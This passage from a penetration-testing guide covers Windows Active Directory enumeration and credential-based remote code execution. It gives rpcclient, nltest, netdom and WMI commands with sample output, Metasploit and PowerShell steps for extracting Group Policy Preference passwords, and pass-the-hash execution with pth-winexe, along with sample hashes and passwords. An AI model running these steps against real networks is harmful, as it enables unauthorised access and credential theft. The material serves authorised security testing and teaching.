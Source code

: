 ****************************************************
Infrastruture PenTest Series : Part 3 - Exploitation
****************************************************

After **vulnerability analysis** probably, we would have compromised a machine to have domain user credentials. Once, we have access to **credentials of a domain user of windows domain**, we can utilize the credentials to do windows **active directory enumeration** such as figuring out the domain controllers, users, machines, trust etc. This post looks into the various methods which are available to do the enumeration such as rpclient, enum4linux, nltest, netdom, powerview, bloodhound, adexplorer, Jexplorer, Remote Server Administration Tools, Microsoft Active Diretory Topology Diagrammer etc.

Once we have **administrative credentials** there are multiple ways to get a **execute remote commands** on the remote machine such winexe, crackmapexec, impacket psexec, smbexec, wmiexec, Metasploit psexec, Sysinternals psexec, task scheduler, scheduled tasks, service controller (sc), remote registry, WinRM, WMI, DCOM, Mimikatz Pass the hash/ Pass the ticket, remote desktop etc. We have a look over all the methods with possible examples. 
Also, We would have a quick look how to add/ remove/ a local/ domain user, add/ remove a local user to administrator group, accessing remote windows machines from windows/ linux.

Did we missed something? please send us a pull request and we will add it. 


Recon Active Directory
======================

rpclient
--------

eskoudis presents great amount of information at `Plundering Windows Account Infor via Authenticated SMB Session <https://pen-testing.sans.org/blog/2013/07/24/plundering-windows-account-info-via-authenticated-smb-sessions>`_.  carnal0wnage have written `Enumerating user accounts on linux and OSX <http://carnal0wnage.attackresearch.com/2007/07/enumerating-user-accounts-on-linux-and.html>`_ and BlackHills have written `Password Spraying and Other Fun with RPC Client <http://www.blackhillsinfosec.com/?p=4645>`_  Most of the stuff has been taken from the above three.

The below commands tell how to figure out

Connection
^^^^^^^^^^

::

 rpcclient -U xxxxs.hxxxx.net/mlxxxxh 10.0.65.103 

Version of the target Windows machine
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

::
  
 rpcclient $> srvinfo
 10.0.65.103    Wk Sv BDC Tim NT     
 platform_id     :       500
 os version      :       6.3
 server type     :       0x801033

Enum commands
^^^^^^^^^^^^^

::

 rpcclient $> enum

 enumalsgroups  enumdomains    enumdrivers    enumkey     enumprivs
 enumdata       enumdomgroups  enumforms      enumports   enumtrust
 enumdataex     enumdomusers   enumjobs       enumprinter

Current domain
^^^^^^^^^^^^^^

::
  
  enumdomains 
  name:[xxxx] idx:[0x0]
  name:[Builtin] idx:[0x0]

Enum Domain info
^^^^^^^^^^^^^^^^

::

  rpcclient $> querydominfo 
  Domain               :  xxxx
  Server               :  HMC_PDC-TEMP
  Comment              :      
  Total Users          :  9043
  Total Groups         :  0
  Total Aliases        :  616
  Sequence No          :  1
  Force Logoff         : -1
  Domain Server State  :  0x1
  Server Role          :  ROLE_DOMAIN_BDC
  Unknown 3           :    0x1

Enum Domain users
^^^^^^^^^^^^^^^^^

::
   
  rpcclient $> enumdomusers 
  user:[administrator] rid:[0x1f4]
  user:[Guest] rid:[0x1f5]
  user:[krbtgt] rid:[0x1f6]
  user:[_STANDARD] rid:[0x3ee]
  user:[Install] rid:[0x3fa]
  user:[sko] rid:[0x43a]
  user:[cap] rid:[0x589]
  user:[zentrale] rid:[0x67f]
  user:[dbserver] rid:[0x7d9]
  user:[JVOO] rid:[0x7fa]
  user:[Standard HMC User Te] rid:[0x8a0]
  user:[event] rid:[0x8d5]
  user:[remote] rid:[0x9ea]
  user:[pda-vis1] rid:[0xb65]
  user:[TestUser] rid:[0xc46]
  user:[oeinstall] rid:[0x1133]
  user:[repro] rid:[0x13c3]

Enum Domain groups
^^^^^^^^^^^^^^^^^^

::

  rpcclient $> enumdomgroups 
  group:[Enterprise Read-only Domain Controllers] rid:[0x1f2]
  group:[Domain Admins] rid:[0x200]
  group:[Domain Users] rid:[0x201]
  group:[Domain Guests] rid:[0x202]
  group:[Domain Computers] rid:[0x203]
  group:[Domain Controllers] rid:[0x204]
  group:[Schema Admins] rid:[0x206]
  group:[Enterprise Admins] rid:[0x207]
  group:[Group Policy Creator Owners] rid:[0x208]
  group:[Read-only Domain Controllers] rid:[0x209]
  group:[Cloneable Domain Controllers] rid:[0x20a]
  group:[Protected Users] rid:[0x20d]
  group:[xxxx Users] rid:[0x4d8]
  group:[IC Members] rid:[0x50d]
  group:[Event Management] rid:[0x8d7]
  group:[SMSInternalCliGrp] rid:[0x9f5]
  group:[IT Support] rid:[0x105b]

Enum Group Information and Group Membership
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

::

  rpcclient $> querygroup 0x200
  Group Name:     Domain Admins
  Description:    Designated administrators of the domain
  Group Attribute:7
  Num Members:16


::

  rpcclient $> querygroupmem 0x200
  rid:[0x2227] attr:[0x7]
  rid:[0x3601] attr:[0x7]
  rid:[0x36aa] attr:[0x7]
  rid:[0x36e0] attr:[0x7]
  rid:[0x3c23] attr:[0x7]
  rid:[0x5528] attr:[0x7]
  rid:[0x1f4]  attr:[0x7]
  rid:[0x363b] attr:[0x7]
  rid:[0x573e] attr:[0x7]
  rid:[0x56bc] attr:[0x7]
  rid:[0x5e5e] attr:[0x7]
  rid:[0x7fe1] attr:[0x7]
  rid:[0x86d9] attr:[0x7]
  rid:[0x9367] attr:[0x7]
  rid:[0x829c] attr:[0x7]
  rid:[0xa26e] attr:[0x7]

Enumerate specfic User/ computer information by RID
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

::

  rpcclient $> queryuser 0x3601
  User Name   :   dummy_s
  Full Name   :   Dummy User
  Home Drive  :   
  Dir Drive   :   
  Profile Path:   
  Logon Script:   
  Description :   E 5.5.2008 Admin
  Workstations:   
  Comment     :   
  Logon Time               :      Tue, 24 Jan 2017 19:28:14 IST
  Logoff Time              :      Thu, 01 Jan 1970 05:30:00 IST
  Kickoff Time             :      Thu, 14 Sep 30828 08:18:05 IST
  Password last set Time   :      Fri, 21 Nov 2008 02:34:34 IST
  Password can change Time :      Fri, 21 Nov 2008 02:34:34 IST
  Password must change Time:      Thu, 14 Sep 30828 08:18:05 IST

Domain Password Policy
^^^^^^^^^^^^^^^^^^^^^^

::

 rpcclient $> getdompwinfo 
 min_password_length: 8
 password_properties: 0x00000000

User password policies
^^^^^^^^^^^^^^^^^^^^^^

::

  rpcclient $> getusrdompwinfo 0x3601
  min_password_length: 8
  &info.password_properties: 0x433e6584 (1128162692)
  0: DOMAIN_PASSWORD_COMPLEX  
  0: DOMAIN_PASSWORD_NO_ANON_CHANGE
  1: DOMAIN_PASSWORD_NO_CLEAR_CHANGE
  0: DOMAIN_PASSWORD_LOCKOUT_ADMINS
  0: DOMAIN_PASSWORD_STORE_CLEARTEXT
  0: DOMAIN_REFUSE_PASSWORD_CHANGE

Enum4linux
----------

Simple wrapper around the tools in the samba package to provide similar functionality to enum.exe (formerly from www.bindview.com).

Usage
^^^^^

::

 Usage: ./enum4linux.pl [options] ip

 Options are (like "enum"):
     -U        get userlist
     -M        get machine list*
     -S        get sharelist
     -P        get password policy information
     -G        get group and member list
     -d        be detailed, applies to -U and -S
     -u user   specify username to use (default "")  
     -p pass   specify password to use (default "")   


 Additional options:
    -a        Do all simple enumeration (-U -S -G -P -r -o -n -i).
              This opion is enabled if you don't provide any other options.
    -h        Display this help message and exit
    -r        enumerate users via RID cycling
    -R range  RID ranges to enumerate (default: 500-550,1000-1050, implies -r)
    -K n      Keep searching RIDs until n consective RIDs don't correspond to
              a username.  Impies RID range ends at 999999. Useful 
	      against DCs.
    -l        Get some (limited) info via LDAP 389/TCP (for DCs only)
    -s file   brute force guessing for share names
    -k user   User(s) that exists on remote system (default: administrator,guest,krbtgt,domain admins,root,bin,none)
              Used to get sid with "lookupsid known_username"
    	      Use commas to try several users: "-k admin,user1,user2"
    -o        Get OS information
    -i        Get printer information
    -w wrkg   Specify workgroup manually (usually found automatically)
    -n        Do an nmblookup (similar to nbtstat)
    -v        Verbose.  Shows full commands being run (net, rpcclient, etc.)

Example
^^^^^^^

::

 enum4linux -P -d xxxx.abcxxx.net -u mluxxxx -p threxxxx 10.0.65.103

Active Directory Explorer ADExplorer
------------------------------------

As per the technet article `Active Directory Explorer (AD Explorer) <https://technet.microsoft.com/en-us/sysinternals/adexplorer.aspx>`_ is an advanced Active Directory (AD) viewer and editor. We can use AD Explorer to easily navigate an AD database, define favorite locations, view object properties and attributes without having to open dialog boxes, edit permissions, view an object's schema, and execute sophisticated searches that you can save and re-execute. 

JXplorer
--------

`JXplorer <http://jxplorer.org/>`_ is a cross platform LDAP browser and editor. It is a standards compliant general purpose LDAP client that can be used to search, read and edit any standard LDAP directory, or any directory service with an LDAP or DSML interface.

Remote Server Administration Tools 
----------------------------------

Active Directory Domain Services (AD DS) Tools and Active Directory Lightweight Directory Services (AD LDS) Tools includes Active Directory Administrative Center; Active Directory Domains and Trusts; Active Directory Sites and Services; Active Directory Users and Computers; ADSI Edit; DCPromo.exe; LDP.exe; NetDom.exe; NTDSUtil.exe; RepAdmin.exe; Active Directory module for Windows PowerShell; DCDiag.exe; DSACLs.exe; DSAdd.exe; DSDBUtil.exe; DSMgmt.exe; DSMod.exe; DSMove.exe; DSQuery.exe; DSRm.exe; GPFixup.exe; KSetup.exe; KtPass.exe; NlTest.exe; NSLookup.exe; W32tm.exe.

Active Directory Administrative Center; Active Directory Domains and Trusts; Active Directory Sites and Services; Active Directory Users and Computers; ADSI Edit;  are GUI tools. These can be installed by installing `Remote Server Administration Tools <https://support.microsoft.com/en-in/help/2693643/remote-server-administration-tools-rsat-for-windows-operating-systems>`_ 

nltest
------

`Nltest <https://technet.microsoft.com/en-us/library/cc731935(v=ws.11).aspx>`_ is a command-line tool to perform network administrative tasks. We could figure out the Domain Controllers/ Domain Trusts using it. It is built into Windows Server 2008 and Windows Server 2008 R2. It is available if you have the AD DS or the AD LDS server role installed. It is also available if you install the Active Directory Domain Services Tools that are part of the Remote Server Administration Tools (RSAT).

Usage
^^^^^

::

 nltest /?
 Usage: nltest [/OPTIONS]


    /SERVER:<ServerName> - Specify <ServerName>

    /QUERY - Query <ServerName> netlogon service
    /DCLIST:<DomainName> - Get list of DC's for <DomainName>
    /DCNAME:<DomainName> - Get the PDC name for <DomainName>
    /DSGETDC:<DomainName> - Call DsGetDcName /PDC /DS /DSP /GC /KDC /TIMESERV /GTIMESERV /WS /NETBIOS /DNS /IP /FORCE /WRITABLE /AVOIDSELF /LDAPONLY /BACKG /DS_6
        /TRY_NEXT_CLOSEST_SITE /SITE:<SiteName> /ACCOUNT:<AccountName> /RET_DNS /RET_NETBIOS
    /DNSGETDC:<DomainName> - Call DsGetDcOpen/Next/Close /PDC /GC /KDC /WRITABLE /LDAPONLY /FORCE /SITESPEC
    /DSGETFTI:<DomainName> - Call DsGetForestTrustInformation /UPDATE_TDO
    /DSGETSITE - Call DsGetSiteName
    /DSGETSITECOV - Call DsGetDcSiteCoverage
    /DSADDRESSTOSITE:[MachineName] - Call DsAddressToSiteNamesEx        /ADDRESSES:<Address1,Address2,...>
    /PARENTDOMAIN - Get the name of the parent domain of this machine
    /WHOWILL:<Domain>* <User> [<Iteration>] - See if <Domain> will log on <User>
    /FINDUSER:<User> - See which trusted domain will log on <User>
    /USER:<UserName> - Query User info on <ServerName>
    /TIME:<Hex LSL> <Hex MSL> - Convert NT GMT time to ascii
    /LOGON_QUERY - Query number of cumulative logon attempts
    /DOMAIN_TRUSTS - Query domain trusts on <ServerName>
        /PRIMARY /FOREST /DIRECT_OUT /DIRECT_IN /ALL_TRUSTS /V

**Examples**


Verify domain controllers in a domain
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

::
 
  nltest /dclist:xxx.example.net
  Get list of DCs in domain 'xxx.example.net' from '\\ABCDEFG.xxx.example.net'.
        ABCDEFG1.xxx.example.net        [DS] Site: XX-SriLanka
        ABCDEFG2.xxx.example.net        [DS] Site: XX-India
        ABCDEFG5.xxx.example.net [PDC]  [DS] Site: XX-Bangladesh
  The command completed successfully

Advanced information about users
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

::

  nltest /user:"TestAdmin"
  User: User1
  Rid: 0x3eb
  Version: 0x10002
  LastLogon: 2ee61c9a 01c0e947 = 5/30/2001 13:29:10
  PasswordLastSet: 9dad5428 01c0e577 = 5/25/2001 17:05:47
  AccountExpires: ffffffff 7fffffff = 9/13/30828 19:48:05
  PrimaryGroupId: 0x201
  UserAccountControl: 0x210
  CountryCode: 0x0
  CodePage: 0x0
  BadPasswordCount: 0x0
  LogonCount: 0x33
  AdminCount: 0x1
  SecurityDescriptor: 80140001 0000009c 000000ac 00000014 00000044 00300002 000000
  02 0014c002 01050045 00000101 01000000 00000000 0014c002 000f07ff 00000101 05000
  000 00000007 00580012 00000003 00240000 00020044 00000501 05000000 00000015 22cd
  b7b4 7112b3f1 2b3be507 000003eb 00180000 000f07ff 00000201 05000000 00000020 000
  00220 00140000 0002035b 00000101 01000000 00000000 00000201 05000000 00000020 00
  000220 00000201 05000000 00000020 00000220
   AccountName: User1
  Groups: 00000201 00000007
  LmOwfPassword: fb890c9c 5c7e7e09 ee58593b d959c681
  NtOwfPassword: d82759cc 81a342ac df600c37 4e58a478
  NtPasswordHistory: 00011001
  LmPasswordHistory: 00010011
  The command completed successfully

Determine the PDC emulator for a domain
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

::

  nltest /dcname:fourthcoffee
  PDC for Domain fourthcoffee is \\fourthcoffee-dc-01
  The command completed successfully

Show trust relationships for a domain
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Returns a list of trusted domains. /Primary /Forest /Direct_Out /Direct_In /All_Trusts /v.

The following list shows the values that you can use to filter the list of domains.

* /Primary: Returns only the domain to which the computer account belongs.

* /Forest: Returns only those domains that are in the same forest as the primary domain.

* /Direct_Out: Returns only the domains that are explicitly trusted with the primary domain.

* /Direct_In: Returns only the domains that explicitly trust the primary domain.

* /All_Trusts: Returns all trusted domains.

* /v: Displays verbose output, including any domain SIDs and GUIDs that are available.

::

  nltest /domain_trusts 
 
  List of domain trusts:
     0: ABC abc.example.net (NT 5) (Forest: 17) (Direct Outbound) (Direct Inbound)
     1: DEF def.example.net (NT 5) (Forest: 17) (Direct Outbound) (Direct Inbound)
     2: IJK IJK.NET (NT 5) (Direct Inbound) ( Attr: 0x8 )
     3: LMN LMH.net (NT 5) (Direct Outbound) ( Attr: 0x18 )
     4: APP app.example.net (NT 5) (Forest: 17) (Direct Outbound) (Direct Inbound) ( Attr: 0x20 )

Thanks to `Tanoy Bose <https://twitter.com/tanoybose>`_ for informing me about this. Cheers Bose.

netdom
------

netdom: netdom is a command-line tool that is built into Windows Server 2008 and Windows Server 2008 R2. It is available if you have the Active Directory Domain Services (AD DS) server role installed. It is also available if you install the Active Directory Domain Services Tools that are part of the Remote Server Administration Tools (RSAT). More information available at `Netdom query <https://technet.microsoft.com/en-us/library/cc835089(v=ws.11).aspx>`_. 

Usage
^^^^^

::

  netdom query {/d: | /domain:}<Domain> [{/s: | /server:}<Server>] [{/ud: | /userd:}[<Domain>\]<User> {/pd: | /passwordd}{<Password>|*}] [/verify] [/reset] [/direct] {WORKSTATION|SERVER|DC|OU|PDC|FSMO|TRUST} [{/help | /?}]

  Specifies the type of list to generate. The following list shows the possible objects:
  WORKSTATION: Queries the domain for the list of workstations.
  SERVER: Queries the domain for the list of servers.
  DC   : Queries the domain for the list of domain controllers.
  OU   : Queries the domain for the list of OUs under which the user that you specify can create a computer object.
  PDC  : Queries the domain for the current primary domain controller.
  FSMO : Queries the domain for the current list of operations master role holders. These role holders are also known as flexible single master operations (FSMO).
  TRUST: Queries the domain for the list of its trusts.

**Examples**

DC
^^

Queries the domain for the list of workstations:

:: 

  PS C:\> netdom query /domain example.net DC
  List of domain controllers with accounts in the domain:
  
  xxxxDC12
  xxxxDC11
  xxxxDC04
  xxxxDC03
  The command completed successfully.

PDC
^^^

Queries the domain for the current primary domain controller

::
 
  PS C:\> netdom query /domain example.net PDC
  Primary domain controller for the domain:
  
  xxxxDC03.example.net
  The command completed successfully.

FSMO
^^^^
Queries the domain for the current list of operations master role holders.  

::

  PS C:\> netdom query /domain example.net FSMO
  Schema master               xxxxDC03.example.net
  Domain naming master        xxxxDC03.example.net
  PDC                         xxxxDC03.example.net
  RID pool manager            xxxxDC03.example.net
  Infrastructure master       xxxxDC03.example.net
  The command completed successfully. 

TRUST
^^^^^
Queries the domain for the list of its trusts

::

  PS C:\> netdom query /domain example.net TRUST
  Direction Trusted\Trusting domain      Trust type
  ========= =======================      ==========   
  
  <->       xxxx.xxxxxx.net              Direct
  <->       xxxx.example.net             Direct
  <->       XX.XXXxXX.NET                Direct

OU
^^

Queries the domain for the list of OUs under which the user that you specify can create a computer object.

::

  PS C:\> netdom query /domain abc.example.net OU
  List of Organizational Units within which the specified user can create a
  machine account:
  
  OU=Domain Controllers,DC=abc,DC=example,DC=net
  OU=ABC-Admin,DC=abc,DC=example,DC=net
  OU=ServiceAccounts,OU=ABC-Admin,DC=abc,DC=example,DC=net
  OU=Users,OU=ABC-Admin,DC=abc,DC=example,DC=net
  OU=Groups,OU=ABC-Admin,DC=abc,DC=example,DC=net
  OU=Service Accounts,DC=abc,DC=example,DC=net
  OU=Servers,OU=ABC-Admin,DC=abc,DC=example,DC=net
  DC=abc,DC=example,DC=net
  The command completed successfully.

SERVER/ WORKSTATION
^^^^^^^^^^^^^^^^^^^

Queries the domain for the list of servers/ workstations

::   

  PS C:\> netdom query /domain abc.example.net WORKSTATION
  List of workstations with accounts in the domain:

  ABCDC02      ( Workstation or Server )
  ABCDC01      ( Workstation or Server )
  ABCDC03      ( Workstation or Server )
  ABCDC04      ( Workstation or Server )
  BSKMACDB62   ( Workstation or Server )

  The command completed successfully.

  PS C:\>


Microsoft Active Directory Topology Diagrammer
----------------------------------------------

The `Microsoft Active Directory Topology Diagrammer <https://www.microsoft.com/en-in/download/details.aspx?id=13380>`_ reads an Active Directory configuration using LDAP, and then automatically generates a Visio diagram of your Active Directory and /or your Exchange Server topology. The diagramms may include domains, sites, servers, organizational units, DFS-R, administrative groups, routing groups and connectors and can be changed manually in Visio if needed.


Get sessions of remote machines
-------------------------------

Powerview Get-NetSession
^^^^^^^^^^^^^^^^^^^^^^^^

net session
^^^^^^^^^^^^^

* Net session of current computer

 ::

   net session

   Computer               User name            Client Type       Opens Idle time

   -------------------------------------------------------------------------------
   \\127.0.0.1            Administrat0r                              1 05D 22H 02M

   The command completed successfully.

* Net session of remote computer
 
 :: 

   net session \\computername

WMI
^^^

We can use wmi to get the remote logged on users. However, I believe to run wmi on remote machine, you need to be administrator of that machine.

::

  wmic:root\cli> /node:"computername" path win32_loggeduser get antecedent
  
  \\.\root\cimv2:Win32_Account.Domain="ABCROOT",Name="axx.xxxxx"
  \\.\root\cimv2:Win32_Account.Domain="ABCROOT",Name="srv.xxxxx"
  \\.\root\cimv2:Win32_Account.Domain="ABCROOT",Name="axx.xxxxx"
  \\.\root\cimv2:Win32_Account.Domain="MA",Name="axxd.xxxxx"
  \\.\root\cimv2:Win32_Account.Domain="DC",Name="ANONYMOUS LOGON"

View users in Domain / Workgroup
--------------------------------

Powerview Get-NetUser
^^^^^^^^^^^^^^^^^^^^^

net user /domain
^^^^^^^^^^^^^^^^

WMI
^^^

Domain users:

:: 

  wmic useraccount list /format:list 


View machines in Domain/ Workgroup
----------------------------------

Powerview Get-NetComputers
^^^^^^^^^^^^^^^^^^^^^^^^^^

net view /domain
^^^^^^^^^^^^^^^^

? -- check the functionality

View machines affected by GPP vulnerability
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

When we run Get-GPPPassword, we get output like

::

  Password: password@123
  Changed : 2013-07-02 01:01:23
  Username: Administrator
  NewName : 
  File    : \\Demo.lab\sysvol\demo.lab\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\DataSources\{DataSouces| Groups| ScheduledTasks.xml

To get the computers using the passwords set by the GPP, we can use

::

  Get-NetOU -GUID "{31B2F340-016D-11D2-945F-00C04FB984F9}" | %{ Get-NetComputer -ADSPath $_ }

Get-NetSite function, which returns the current sites for a domain, also accepts the -GUID filtering flag. This information has been taken from harmj0y blog `gpp and powerview <http://www.harmj0y.net/blog/powershell/gpp-and-powerview/>`_ 

More information about GPP should be read from Sean Metcalf blog `Using Group Policy Preferences for Password Management = Bad Idea <https://adsecurity.org/?p=384>`_ and `Finding Passwords in SYSVOL & Exploiting Group Policy Preferences <https://adsecurity.org/?p=2288>`_ 

There are various methods to figure out the GPP Password if it's set.

* `Get-GPPPassword.ps1 <https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Get-GPPPassword.ps1>`_ :  **PowerShell script** that can identify and extract the password(s) stored in Group Policy Preferences using the MSDN AES key. 

* **Metasploit auxilary module - SMB Group Policy Preference Saved Passwords Enumeration** :  This module enumerates files from target domain controllers and connects to them via SMB. It then looks for Group Policy Preference XML files containing local/domain user accounts and passwords and decrypts them using Microsofts public AES key. This module has been tested successfully on a Win2k8 R2 Domain Controller. ( Requires domain user credentials)

 ::

   use auxiliary/scanner/smb/smb_enum_gpp
   set smbdomain example.com
   set smbuser user
   set smbpass pass
   set rhosts 192.168.56.2

 Thanks to Tanoy Bose for informing about this!. Previously, we used to manually search the SYSVOL location! ( When for some reason Get-GPPPassword doesn't work! )

* **Meterpreter session**, we can use metasploit post module - Windows Gather Group Policy Preference Saved Passwords : This module enumerates the victim machine's domain controller and connects to it via SMB. It then looks for Group Policy Preference XML files containing local user accounts and passwords and decrypts them using Microsofts public AES key. Cached Group Policy files may be found on end-user devices if the group policy object is deleted rather than unlinked. 

 :: 

  use post/windows/gather/credentials/gpp
  set session <Session_Number>

* **Reading Group Policies** manually stored here: \\\<DOMAIN>\\SYSVOL\\<DOMAIN>\\Policies\\

View group in Domain / Workgroup
--------------------------------

Powerview Get-NetGroupMember
^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Net group / domain
^^^^^^^^^^^^^^^^^^

Windows Resource Kit Local/ Global executable
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

* Global.exe 

 ::

   PS C:\> .\global.exe

   Displays members of global groups on remote servers or domains.

   GLOBAL group_name domain_name | \\server

   group_name    The name of the global group to list the members of.
   domain_name   The name of a network domain.
   \\server      The name of a network server.

   Examples:
   Global "Domain Users" EastCoast
   Displays the members of the group 'Domain Users' in the EastCoast domain.

   Global PrintUsers \\BLACKCAT
   Displays the members of the group PrintUsers on server BLACKCAT.

   Notes:
   Names that include space characters must be enclosed in double quotes.
   To list members of local groups use Local.Exe.
   To get the Server name for a give Domain use GetDC.Exe.

 Example:

 ::

   PS C:\> .\global.exe "Domain Admins" \\domainname
   Uraxxxx
   axx.xxxxx
   axx.xxxxx2
   axx.xxxxxx3


BloodHound Group Memberships
^^^^^^^^^^^^^^^^^^^^^^^^^^^^

WMI user groups
^^^^^^^^^^^^^^^
 
::

  wmic group list brief
  ABCD\SUS Administrator    ABCD          SUS Administrator                                         S-1-5-21-XXXXXXXXX-XXXXXXXXX-XXXXXXXXX-7357
  ABCD\VPN Admins           ABCD          VPN Admins                                                S-1-5-21-XXXXXXXXX-XXXXXXXXX-XXXXXXXXX-8728
  ABCD\VPN Users            ABCD          VPN Users                                                 S-1-5-21-XXXXXXXXX-XXXXXXXXX-XXXXXXXXX-9229
  ABCD\XXX - OER Users      ABCD          XXX - OER Users                                           S-1-5-21-XXXXXXXXX-XXXXXXXXX-XXXXXXXXX-5095


Hunting for a particular User?
------------------------------

Powerview Invoke-UserHunter
^^^^^^^^^^^^^^^^^^^^^^^^^^^

BloodHound users_sessions
^^^^^^^^^^^^^^^^^^^^^^^^^

EventLog AD? 
^^^^^^^^^^^^
How? Not yet successful!

.. To Do :: * Finding which machine belong to which user? Any other way than above?  * Machine belongs to which user AD Properties -- GETADObject (Tanoy)


Remote Code Execution Methods
=============================

A lot of details for Remote Code execution has already been mentioned by Rop Nop in his three parts `Part 1: Using credentials to own windows boxes <https://blog.ropnop.com/using-credentials-to-own-windows-boxes/>`_ , `Part2: PSExec and Services <https://blog.ropnop.com/using-credentials-to-own-windows-boxes-part-2-psexec-and-services/>`_ and `Part: 3 Wmi and WinRM <https://blog.ropnop.com/using-credentials-to-own-windows-boxes-part-3-wmi-and-winrm/>`_ and by scriptjunkie in his blog `Authenticated Remote Code Execution Methods in Windows <https://www.scriptjunkie.us/2013/02/authenticated-remote-code-execution-methods-in-windows/>`_ 

We have just summarized all in one page with *working* examples whereever possible.

Winexe
------

Linux Binary pth-winexe
^^^^^^^^^^^^^^^^^^^^^^^

::

  winexe version 1.1
  Usage: winexe [OPTION]... //HOST COMMAND
  Options:
   -h, --help                                  Display help message
   -V, --version                               Display version number
   -U, --user=[DOMAIN/]USERNAME[%PASSWORD]     Set the network username
   -A, --authentication-file=FILE              Get the credentials from a file
   -N, --no-pass                               Do not ask for a password
   -k, --kerberos=STRING                       Use Kerberos, -k [yes|no]
   -d, --debuglevel=DEBUGLEVEL                 Set debug level
       --uninstall                             Uninstall winexe service after remote execution
       --reinstall                             Reinstall winexe service before remote execution
       --system                                Use SYSTEM account
       --profile                               Load user profile
       --convert                               Try to convert characters between local and remote code-pages
       --runas=[DOMAIN\]USERNAME%PASSWORD      Run as the given user (BEWARE: this password is sent in cleartext over the network!)
       --runas-file=FILE                       Run as user options defined in a file
       --interactive=0|1                       Desktop interaction: 0 - disallow, 1 - allow. If allow, also use the --system switch (Windows requirement). Vista does not support this option.
       --ostype=0|1|2                          OS type: 0 - 32-bit, 1 - 64-bit, 2 - winexe will decide. Determines which version (32-bit or 64-bit) of service will be installed.
  
Example with pth:

::

  pth-winexe -U ./Administrator%aad3b435b51404eeaad3b435b51404ee:4b579a266f697c2xxxxxxxxx //10.145.X.X cmd.exe
  pth-winexe -U EXAMPLE/Administrator%example@123 //10.145.X.X cmd.exe

Windows Binary win-exe
^^^^^^^^^^^^^^^^^^^^^^

win-exe can be downloaded from `winexe <https://sourceforge.net/projects/winexe/>`_ 

commands and usage is same as linux binary pth-winexe. However, it needed to be compiled from the source.

crackmapexec
------------

